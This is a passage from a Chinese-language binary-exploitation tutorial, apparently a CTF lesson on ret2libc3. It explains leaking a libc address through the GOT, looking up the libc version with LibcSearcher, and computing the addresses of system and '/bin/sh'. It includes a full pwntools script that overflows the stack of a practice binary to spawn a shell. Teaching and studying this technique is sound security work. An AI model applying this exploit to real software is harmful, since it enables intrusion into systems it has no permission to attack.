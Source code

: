 那麼我們如何得到 system 函數的地址呢？這裏就主要利用了兩個知識點：

- system 函數屬於 libc，而 libc.so 動態鏈接庫中的函數之間相對偏移是固定的。
- 即使程序有 ASLR 保護，也只是針對於地址中間位進行隨機，最低的12位並不會發生改變。而 libc 在github上有人進行收集，如下
  - https://github.com/niklasb/libc-database

所以如果我們知道 libc 中某個函數的地址，那麼我們就可以確定該程序利用的 libc。進而我們就可以知道 system函數的地址。

那麼如何得到 libc 中的某個函數的地址呢？我們一般常用的方法是採用 got 表泄露，即輸出某個函數對應的 got 表項的內容。**當然，由於 libc 的延遲綁定機制，我們需要泄漏已經執行過的函數的地址。**

我們自然可以根據上面的步驟先得到 libc，之後在程序中查詢偏移，然後再次獲取 system 地址，但這樣手工操作次數太多，有點麻煩，這裏給出一個 libc 的利用工具，具體細節請參考 readme：

- https://github.com/lieanu/LibcSearcher

此外，在得到 libc 之後，其實 libc 中也是有 /bin/sh 字符串的，所以我們可以一起獲得 /bin/sh 字符串的地址。

這裏我們泄露 __libc_start_main 的地址，這是因爲它是程序最初被執行的地方。基本利用思路如下

- 泄露 __libc_start_main 地址
- 獲取 libc 版本
- 獲取 system 地址與 /bin/sh 的地址
- 再次執行源程序
- 觸發棧溢出執行 system(‘/bin/sh’)

exp 如下：

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print("leak libc_start_main_got addr and return to main again")
payload = flat([b'A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter(b'Can you find it !?', payload)

print("get the related addr")
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print("get shell")
payload = flat([b'A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()

```

